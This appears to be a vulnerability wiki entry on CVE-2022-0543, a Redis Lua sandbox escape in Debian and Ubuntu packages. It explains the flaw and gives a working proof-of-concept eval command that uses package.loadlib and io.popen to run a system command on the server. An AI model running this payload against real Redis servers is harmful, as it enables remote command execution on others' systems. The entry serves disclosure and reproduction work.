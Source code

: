 # Redis Lua Sandbox Bypass Remote Command Execution CVE-2022-0543

## Vulnerability Description

Redis is a well-known open source Key-Value database that has the ability to execute Lua scripts in a sandbox.

When the source of Debian and Ubuntu distributions is packaged, an object package is left in the Lua sandbox. Attackers can use the methods provided by this object to load functions in the dynamic link library liblua, and then escape the sandbox to execute arbitrary commands.

## Vulnerability Impact

Redis

## Vulnerability reappears

Remotely connect to Redis, execute POC

```javascript
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("whoami", "r"); local res = f:read("*a"); f:close(); return res' 0
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1647571045713-b47b4478-7425-402a-a8e3-4dd572c51270.png)